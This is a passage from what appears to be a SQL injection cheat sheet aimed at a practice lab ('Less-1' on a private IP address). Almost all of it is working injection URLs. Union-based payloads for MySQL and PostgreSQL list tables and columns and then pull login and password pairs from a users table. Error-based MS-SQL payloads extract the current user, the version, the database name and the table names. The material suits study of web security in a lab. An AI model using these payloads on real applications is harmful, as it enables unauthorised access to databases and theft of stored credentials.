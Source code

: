 **postgres**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"
```

#### Finding column names from a table

**mysql**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```
**postgres**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"
```

#### Concatenate

Example:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login from users;`
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**


### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`


#### DBMS version

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`


#### Database name

`http://192.168.1.104/Less-1/?id=-1 or db_name(0)=0 --`


#### Tables from a database

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---
